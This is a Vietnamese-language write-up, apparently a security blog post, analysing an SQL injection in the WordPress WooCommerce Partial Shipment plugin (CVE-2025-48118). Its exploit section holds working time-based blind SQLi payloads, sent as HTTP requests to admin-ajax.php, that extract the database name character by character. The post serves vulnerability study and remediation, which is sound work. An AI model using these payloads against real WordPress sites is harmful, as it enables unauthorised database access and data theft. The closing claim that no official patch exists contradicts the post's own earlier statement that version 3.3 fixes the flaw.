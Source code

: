 ```yaml
---
title: CVE-2025-48118 Analysis & POC
description: Security Vulnerability in WordPress Woocommerce Partial Shipment Plugin.
date: 2025-09-10 14:54:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


## Introduction
Lỗ hổng xảy ra trên plugin **Woocommerce Partial Shipment** của WordPress trước phiên bản **3.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2
- **CVSS severity**:  High (8.5)
- **Required Privilege**: Subscriber

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Woocommerce Partial Shipment**:  v3.2(vul) và v3.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version
- **Actived WooCommerce plugin**: plugin bắt buộc **actived** trước khi cài **Woocommerce Partial Shipment Plugin**, một số hàm trong **WooCommerce** sẽ được sử dụng.

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế kiểm soát chặt chẽ.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **wc-partial-shipment/woocommerce-partial-shipment.php**

Nhưng ở đây, dev thay đổi khá nhiều ta khó để tìm được vị trí lỗi.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong file **wc-partial-shipment/woocommerce-partial-shipment.php** để tìm sink. 
{: .prompt-tip }

![search sink](assets/img/posts/2025-09-10-CVE-2025-48118/search_sink.png)

`get_shipment_id` và `get_wxp_shipment_data` là 2 hàm thuộc class **WXP_Partial_Shipment** đáng chú ý, dữ liệu được đưa thẳng vào câu query mà không có cơ chế kiểm soát nào. Do đó, lỗ hổng SQLi có thể xảy ra.

![Patch](assets/img/posts/2025-09-10-CVE-2025-48118/patch.png)

Bản vá sử dụng `$wpdb->prepare()` để chuẩn bị câu query, thay vì **nối trực tiếp dữ liệu từ người dùng**. Điều này đảm bảo rằng tất cả giá trị được **escape đúng cách** trước khi chèn vào SQL, ngăn ngừa nguy cơ SQL Injection.

### How it work?
`get_shipment_id` và `get_wxp_shipment_data` đều được hàm `wxp_order_set_shipped` trong cùng class gọi và sử dụng.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
```

👉 `order_id` được lấy từ **POST request**, nơi người dùng có thể kiểm soát làm đối số khi gọi hàm `get_shipment_id` và `get_wxp_shipment_data`
truyền vào câu query chứa lổ hỗng SQLi.

Để xác định nơi `wxp_order_set_shipped` được gọi và sử dụng, ta tìm kiếm với từ khóa `wxp_order_set_shipped` trong thư mục chứa plugin.

![Search 1](assets/img/posts/2025-09-10-CVE-2025-48118/search_1.png)

`wxp_order_set_shipped` được `construct` của cùng class sử dụng làm callback cho hook `wp_ajax_wxp_order_set_shipped` => yêu cầu người dùng phải đăng nhập

👉 Khi truy cập vào `/wp-admin/admin-ajax.php` với tham số:

```
action=wxp_order_set_shipped&order_id=payload_here
```

- Callback `wxp_order_set_shipped` được gọi 
- `order_id` được lấy trực tiếp từ request và chèn vào SQL query.
- Query thực thi 2 lần do được truyền vào 2 hàm chạy lệnh SQL với payload độc hại.

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Ở đây có 2 nơi thực hiện query nên thời gian phản hồi sẽ tăng gấp đôi

![time response](assets/img/posts/2025-09-10-CVE-2025-48118/time_resp.png)

Ta sử dụng **subquery trong mệnh đề FROM** vì truy vấn con được coi như một bảng tạm thời. MySQL sẽ thực thi truy vấn con trước để tạo bảng tạm, sau đó mới thực hiện truy vấn chính. Khi so sánh theo từng row, `SLEEP` chỉ chạy một lần trong quá trình khởi tạo bảng tạm, các lần so sánh tiếp theo sẽ không thực thi lại, nhờ đó tránh việc `SLEEP` bị nhân nhiều lần.

Ví dụ khi gửi request với payload này:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

Thời gian trả về tăng theo cấp số nhân

![search 2](assets/img/posts/2025-09-10-CVE-2025-48118/search_2.png)

### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `order_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-48118/script.py)

## Conclusion
Lỗ hổng **CVE-2025-48118** trong plugin WordPress **Woocommerce Partial Shipment** trước phiên bản **3.3**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)